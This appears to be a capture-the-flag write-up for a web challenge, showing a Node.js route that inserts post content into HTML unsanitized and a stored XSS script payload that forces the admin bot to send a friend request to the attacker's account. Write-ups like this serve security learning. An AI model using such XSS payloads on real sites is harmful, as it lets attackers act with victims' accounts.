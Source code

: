 We can get `displayName` from the admin by making friends with the admin by posting a request to `/friend` with our username.

![](https://i.imgur.com/Nb7kjcU.png)

### Exploit

To exploit this challenge, we can use XSS in `/post/:id` where in the code it will replace `$CONTENT` without sanitizing it first so it is vulnerable with XSS.

```javascript=
// templating engines are for losers!
const postTemplate = fs.readFileSync(path.join(__dirname, "post.html"), "utf8");
app.get("/post/:id", (req, res) => {
    if (posts.has(req.params.id)) {
        res.type("text/html").send(postTemplate.replace("$CONTENT", () => posts.get(req.params.id)));
    } else {
        res.status(400).type("text/html").send(postTemplate.replace("$CONTENT", "post not found :("));
    }
});
```

We can take advantage of this XSS by creating a new `metapost` and using the payload below to make a post request to `/friend` and force the admin to be friends with the `username`, which is our account.

![](https://i.imgur.com/WPsox7J.png)

payload:

```htmlbars=
<script>
    const username = "asd"
    fetch("/friend", {
        method: "POST",
        mode:"no-cors",
        headers:{
            "Content-Type":"application/x-www-form-urlencoded"
        },
        body:"username="+username,
    })
</script>
```

We post and we will get a link to the post, example:

```
https://metaverse.lac.tf/post/4c92e335-e93a-4662-beb8-e2ea478167dc
```

We send this to the admin bot to trigger XSS on the admin account, and don't forget to friend the admin as well so we can get the flag.

![](https://i.imgur.com/tmn8rQn.png)
